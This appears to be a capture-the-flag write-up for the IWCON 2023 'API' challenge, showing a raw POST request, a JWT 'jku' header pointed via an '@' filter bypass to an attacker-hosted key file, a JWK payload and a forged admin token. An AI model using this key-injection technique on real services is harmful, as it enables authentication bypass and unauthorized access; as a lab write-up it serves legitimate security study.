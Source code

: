 ```yaml
---
title: IWCON23 CTF
description: Writeup for challenge IWCON 2023 API solved in IWCON 2023 
date: 2023-12-14 16:30:00 -3000
categories: [CTFwriteups]
tags: [API, web]
author: trace
---
```


![](https://imgur.com/HDfHZOD.png)
### **IWCON 2023 API**

#### **Step 1: Unveiling the Exploited Token Mechanism**

Our team scrutinized a POST request, uncovering a potential threat. This comprehensive analysis exposed the utilization of a manipulated token within the request to gain unauthorized access to sensitive information.

**POST Request Details:**
```http
POST /api/v2/getFlag HTTP/1.1
Host: 3.111.42.9:9595
User-Agent: curl/8.4.0
Accept: */*
Content-Length: 540
Content-Type: application/x-www-form-urlencoded
Connection: close
token=eyJqa3UiOiJodHRwczovLzc1N2YtMTE0LTM2LTE3LTIxNS5uZ3Jvay1mcmVlLmFwcCIsImtpZCI6IjY3ZTVjNjkyLWMzYzUtNDcwNi05MmVmLTUzMGUyZGU4YWIwMCIsInR5cCI6IkpXVCIsImFsZyI6IlJTMjU2In0.eyJ1c2VybmFtZSI6ImFkbWluIn0.OJY-8-9hUxEtSTH3w_LzfvC4ijYVbVBPCRzOII6JWIPLiwX3PFcpdo1Gks4vi3dpGAoX6ZJRAyQm7QDzRv083GngSqF1ZrH5ZfNEt8MWqK28rpVQx9BnatUxXYdaA3gNiWtPPyDl9cJsX1T6w4MCRljb9qih_gOCMjAtV6KxxKR2nJAPhSUbR0yzr7c13UWFQNnifSwBLGMcbxg2Doeh-fBqSS4JvueXKnQRyV-Th5RBlvUx6prQGk0IXW1I-93dCkbWXSUDX4JCzqXHa6qI0xgp_akhz8S1pcwq2sUECujVAgz75ke-pzQhSkzh5wN1G_T5jXEcKKIMTcg6JlKCWw
```

#### **Step 2: Manipulating the "jku" Parameter for Unauthorized Access**

Upon closer inspection, our team identified the "jku" parameter, pointing to "http://3.111.42.9/". Further investigation revealed a filter in place, leading to the discovery that leveraging the "@" symbol could redirect communication to a malicious server. To bypass the imposed filter, the "jku" parameter was manipulated to `"jku": "http://3.111.42.9@<attackerIP>:1445/.well-known/jwk.json"`. Notably, the requested `jwk.json` was then hosted on the attacker's server.

**JWK JSON Payload:**
```json
{"mykeys":[{"alg":"RS256","e":"AQAB","kid":"1234","kty":"RSA","n":"...","use":"sig"}]}
```

#### **Step 3: Generating the "N" Value for Unauthorized Token Creation**

With the obtained JWK data, we extracted the "N" value and proceeded to craft a new JWT token, embedding the desired username to facilitate the extraction of the target flag.

**Final JWT Token:**
```jwt
eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiIsImtpZCI6IjEyMzQiLCJqa3UiOiJodHRwOi8vMy4xMTEuNDIuOUBSRURBQ1RFRDoxNDQ1Ly53ZWxsLWtub3duL2p3ay5qc29uIn0.eyJ1c2VybmFtZSI6Iml3Y29uIiwiYWRtaW4iOiJ0cnVlIn0.Ki_I4KqmCbEwbN8hEU7NiKsbsyBKUlDKuNSwZthXPZLUAY0x4FruBP5YKyBl-ohR6BPH8IEYt72smgMF4tEuUc0kyyJnOmr0e_VujEa5V23uo80I39rPB3H3U4t5XBEviZKd2haf2h5fkgW3ZNm6SdvvcweKyYpRkTjEAIDR1F5Th2ygjSl6hC8mBuX3cE_Xu4-Wh7EkotWB3hBbSNDrmsxeH2amqA6ZbP6Gwm7aCv0MWHvgGbT1KUtxQZM0WlmcqQlblO4UkYet7_byppX5TIdLy5aB-r6RvSiL9H6HI0VtjkWBu_BFmKywW0aPWVVJuG34ewtO5tTHTmtNFUqnWg
```

Acknowledgments to the shadowbrokers team for their collaborative effort:
- [https://twitter.com/Hac10101](https://twitter.com/Hac10101)
- [https://twitter.com/C15C01337](https://twitter.com/C15C01337)
- [https://twitter.com/5hriyan5h](https://twitter.com/5hriyan5h)
- [https://twitter.com/0xManan](https://twitter.com/0xManan)
- [https://twitter.com/Saitleop](https://twitter.com/Saitleop)
